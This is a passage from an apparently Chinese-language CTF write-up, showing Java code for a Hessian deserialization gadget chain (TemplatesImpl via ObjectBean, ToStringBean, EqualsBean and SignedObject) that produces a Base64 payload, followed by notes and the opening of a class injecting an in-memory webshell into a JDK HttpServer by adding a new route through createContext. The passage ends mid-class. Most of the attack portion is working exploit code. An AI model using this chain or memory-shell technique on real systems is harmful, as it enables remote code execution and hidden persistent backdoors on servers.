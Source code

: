 ```java
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        ObjectBean delegate = new ObjectBean(Templates.class, obj);
        ObjectBean root  = new ObjectBean(ObjectBean.class, delegate);

        HashMap<Object, Object> hashmap = makeMap(root,"1");

        KeyPairGenerator keyPairGenerator = KeyPairGenerator.getInstance("DSA");
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signature = Signature.getInstance(privateKey.getAlgorithm());
        SignedObject signedObject = new SignedObject(hashmap, privateKey, signature);

        ToStringBean item = new ToStringBean(SignedObject.class, signedObject);
        EqualsBean root1 = new EqualsBean(ToStringBean.class, item);

        HashMap<Object, Object> hashmap1 = makeMap(root1,"1");

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream);
        hessian2Output.writeObject(hashmap1);
        hessian2Output.flushBuffer();

        byte[] bytes = byteArrayOutputStream.toByteArray();
        String exp = Base64.getEncoder().encodeToString(bytes);
        System.out.println(exp);

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(byteArrayInputStream);
        hessian2Input.readObject();
    }
}
```
最后一步就是回显了，但是发现环境是HttpHandler，不是我们平常遇到的tomcat和spring，需要重新构造内存马，首先写一个handle下断点调试
可以通过`Thread.currentThread()`或`Thread.getThreads()`中获取
![](https://img-blog.csdnimg.cn/4a0cc63f383b464b835e40923e31770e.png)
```
Thread.currentThread()-->group-->threads[1]-->target-->this$0-->contexts-->list[0]-->handler
```

接下来写一个handler的内存马就可以了，参考Y4tacker师傅，发现反射覆盖handler过于暴力，那就写一个温柔一点的，改成调用createContext来创建新的路由
```java
import com.sun.net.httpserver.HttpExchange;
import com.sun.net.httpserver.HttpHandler;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class InjectHandle extends AbstractTranslet implements HttpHandler {
    static {
        //获取当前线程
        Object o = Thread.currentThread();
```